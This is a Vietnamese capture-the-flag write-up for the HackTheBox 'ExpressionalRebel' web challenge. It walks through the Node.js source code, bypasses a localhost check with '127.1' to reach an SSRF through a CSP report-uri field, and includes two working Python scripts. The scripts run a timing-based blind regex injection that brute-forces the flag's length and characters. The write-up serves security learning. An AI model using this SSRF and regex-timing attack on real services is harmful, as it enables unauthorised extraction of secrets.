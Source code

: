 ```yaml
---
layout: post
title: HTB ExpressionalRebel Writeup
date: 2022-12-01
categories: ["hackthebox"]
---
```


# Phân tích code

Vì đề bài cho source code nên mình sẽ tiến hành phần tích mã nguồn để xem ứng dụng có những chức năng gì và luồng của code như thế nào.

Ứng dụng này được viết bằng nodejs. Mình sẽ đọc thư mục routes trước để xem ứng dụng có những chức năng và đường dẫn nào.

Trong thư mục routes có 2 file api.js và index.js. Với file index.js có 2 hàm home page và deactivate page.

![Imgur](https://i.imgur.com/xOY0Jwx.png)

Chức năng homepage chỉ để hiển thị các thông tin. Còn chức năng deactivate thì có 1 input là ```secretCode```. Biến ```secretCode``` thì được vavalidate bởi hàm ```validateSecret```. Mình sẽ xem hàm ```validateSecret``` sẽ thực hiện điều gì.

```javascript
const validateSecret = async (secret) => {
    try {
        const match = await regExp.match(secret, env.FLAG)
        return !!match;
    } catch (error) {
        return false;
    }
}
```

Hàm này sẽ thực hiện kiểm tra regex nếu input `secret` có khớp với `env.FLAG` hay không.

Tuy nhiên, quay lại chức năng ```deactivate```, chức năng này có hàm ```isLocal```.

![Imgur](https://i.imgur.com/dy8dcNN.png)

Hàm isLocal kiểm tra xem ```remoteAddress``` có phải từ 127.0.0.1 và ```host``` là 127.0.0.1:1337 hay không. Vì vậy, điều đó có nghĩa là chức năng này chỉ có thể truy cập được từ máy chủ cục bộ.

Tiếp theo mình tiến hành phân tích tệp api.js.

![Imgur](https://i.imgur.com/b7kpkK2.png)

Chức năng evaluate sẽ thực hiện nhận các input ```csp``` sau đó sẽ được kiểm tra bởi hàm ```evaluateCsp```.

![Imgur](https://i.imgur.com/x6OlxTs.png)

Hàm ```evaluateCsp``` sẽ thực hiện phân tích cú pháp của CSP và nếu đầu vào có report-uri, nó sẽ được kiểm tra bởi hàm ```checkReportUri```.

Trong CSP thì report-uri sẽ được đi kèm với các url. Mọi người có thể tìm hiểu thêm trong link sau: 

- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/report-uri)

```
Content-Security-Policy: report-uri <uri>;
Content-Security-Policy: report-uri <uri> <uri>;
```

Hàm checkReportUri như sau

![Imgur](https://i.imgur.com/F1XUa8S.png)

Hàm ```checkReportUri``` sẽ thực hiện kiểm tra xem có mấy URI và kiểm tra xem URI đã gửi có phải là 127.0.0.1 hay localhost từ hàm ```isLocalhost``` hay không.

![Imgur](https://i.imgur.com/2rN4Jb0.png)

Nếu tất cả các điều kiện được đáp ứng, hàm ```httpGet``` sẽ được thực thi tới URI đó.

![Imgur](https://i.imgur.com/CQ1D1d0.png)

Hàm ```httpGet``` sẽ thực hiện truy cập vào URI đó.

# Exploit

Trước tiên, mình sẽ gửi yêu cầu qua API để kiểm tra xem response nhận được là gì.

![Imgur](https://i.imgur.com/qdHYGHI.png)

Tiếp theo mình sẽ gửi thông tin report-uri với uri là 127.0.0.1.

![Imgur](https://i.imgur.com/2OT8roZ.png)

Mình nhận được các thông báo lỗi. Vì vậy, mình phải bypass chức năng kiểm tra ```isLocalhost``` của evaluate. Để ứng dụng có thể truy cập vào được 127.0.0.1.

Thế là mình nghĩ ngay cách bypass giống như lỗ hổng SSRF.

![Imgur](https://i.imgur.com/FoRJ3u7.png)

Cách trên có thể bypass hàm ```isLocalhost```` một cách dễ dàng. Đây là kết quả mình đã nhận được.

![Imgur](https://i.imgur.com/G89yQRb.png)

Vậy làm thế nào để có được flag. Quay lại hàm ```deactivate ```, trong hàm ```validateSecret``` có một regex kiểm tra xem secret có khớp với flag hay không. Và chức năng request chỉ có thể truy cập qua localhost.

Kết hợp với chức năng ```evaluate```, mình có thể truy cập chức năng hủy kích hoạt bằng cách bypass ở trên.

![Imgur](https://i.imgur.com/Ke2dyWM.png)

Tuy nhiên, mình không thấy bất cứ điều gì xảy ra.

Với dữ liệu secret regex với flag, mình đã tìm kiếm các thông tin trên google. Sau một thời gian, mình đã tìm ra đây là lỗ hổng Blind Regular Expression Injection và có 1 cách khai thác nhưu sau.

- [https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets](https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets)
- [https://diary.shift-js.info/blind-regular-expression-injection/](https://diary.shift-js.info/blind-regular-expression-injection/)

Theo thông tin mình đọc được thì khi input đoạn regex ```^(?=.\{1\})((.))*salt$``` nếu ra kết quả đúng thì request sẽ mất hơn 2s để thực hiện. Và nếu sai, yêu cầu sẽ thực hiện rất nhanh.

![Imgur](https://i.imgur.com/CKjF82e.png)

vậy mình sẽ code 1 đoạn khai thác tìm kiếm chiều dài của flag trước tiên.

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_flag():
    length_of_flag = 0
    for i in range(100):
        secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{.\{\{\{i\}\}\}\}\})((.*)*)*salt$')

        headers = {'Content-Type': 'application/json'}
        data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}
        response = requests.post(url, headers=headers, json=data)
        if response.elapsed.total_seconds() > 2:
            length_of_flag = i
            break
        
    print("length flag is: \%s " \% str(length_of_flag))
if __name__ == "__main__":
    brute_flag()
```

Kết quả mình nhận được chiều dài flag là 34:

![Imgur](https://i.imgur.com/yM2nNQw.png)

Sau đó mình thực hiện brute flag

```python
import requests, urllib, time

url = "http://178.128.174.134:32093/api/evaluate"

def brute_force_flag():
    alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_"

    flag = ""
    for i in range(34):
        for i in range(len(alphabet)):
            secret_code = urllib.parse.quote_plus(f'^(?=HTB\{\{\{flag\}\{alphabet[i]\}.*\}\})((.*)*)*salt$')

            headers = {'Content-Type': 'application/json'}
            data = {'csp': f'report-uri http://127.1:1337/deactivate?secretCode={secret_code}\n'}

            response = requests.post(url, headers=headers, json=data)
            if response.elapsed.total_seconds() > 2:
                flag = flag + alphabet[i]
                break

    print("flag is: HTB\{\%s\}" \% str(flag))
if __name__ == "__main__":
    brute_force_flag()
```

Sau khi chạy xong mình đã có được flag

![Imgur](https://i.imgur.com/9rZbEQo.png)
